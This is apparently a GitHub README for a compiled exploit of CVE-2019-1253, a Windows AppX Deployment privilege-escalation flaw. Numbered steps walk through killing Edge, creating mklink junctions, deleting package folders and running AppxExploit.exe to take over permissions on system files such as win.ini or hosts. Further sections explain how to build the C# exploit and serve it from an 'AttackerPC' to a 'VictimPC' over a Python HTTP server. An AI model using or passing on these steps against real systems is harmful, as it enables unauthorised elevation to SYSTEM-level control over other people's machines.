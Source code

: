 ## CVE2019-1253-Compiled
Windows AppX Deployment -  Windows Elevation of Privilege Vulnerability

## How to Replicate this attack
So, Here is the Way ..!!
```
1. Check if exists directory ""C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe"
If not, launch Edge for the first time to create that directory.
2. Check if there are any Microsoft Edge running processes. In that case, kill all the processes.
3. Create temporary directory in C:\ , with your choice name.
4. Above Created directory we will use as mountpoint so now Create the hardlink to the targetted file within this directory.
(mklink /J "C:\testapp" "C:\Users\JohnUser\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\Settings")
5. Launch Microsoft Edge, it will crash and AppxSvc and takes SYSTEM ownership of the directory created by you in C: directory , if it doen't happen so don't worry it's okay.
5. Delete the local user directory for the Microsof Edge package appX after visiting "C:\Users\{Environment.UserName}\AppData\Local\Packages\" inside it. Delete everything except "C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\" this location inside the Package directory.
6. Try to removes permissions for current user from modify access to none, in my case i was not able to remove perm from the user so i lefted and proceed further to test the case.
7.Clear directory files from the mounted directory and try to re-create the hardlink to the targeted file inside this directory.
(it will say aleady exits , no worry move on)
8. git clone the Exploit and Check the permission of your target file which you are going to modify the permission.
(Target file may be choosen as "C:\WIndows\win.ini" or "C:\Windows\System32\drivers\etc\hosts" or you can choose many more systems file.)
9. Exploit it using AppxExploit.exe "C:\Windows\win.ini"
```
## Screenshoot includes are 

## Compile C# project from Visual Studio
Open your project to visual studio
```
Open Visual Studio --> Open Local Folder --> Select your Downloaded Folder --> Open CVE-2019-1253 --> AppExploit_Edge --> Select Folder --> Open
```
After opening your Project, just build it 
```
go to AppxExploit.csproject --> Double click to open --> Then at the top of the screen click on green icon to build
```
Now, Download and mimic exploitation.

## Transfer Exploit from AttackerPC to VictimPC
```python2.7
Python2.7:\>pyhton -m SimpleHTTPServer 90
```
```pyhton 3
Python3:\>python -m http.server
```

## How to create Hardlink, Softlink & junction
```
mklink Link Target
mklink /D Link Target
mklink /H Link Target
mklink /J Link Target
```
```
Use /D when you want to create a soft link pointing to a directory.
Use /H when you want to create a hard link pointing to a file:
Use /J to create a hard link pointing to a directory, also known as a directory junction:
```

## Resources
https://github.com/padovah4ck/CVE-2019-1253

https://krbtgt.pw/dacl-permissions-overwrite-privilege-escalation-cve-2019-0841/
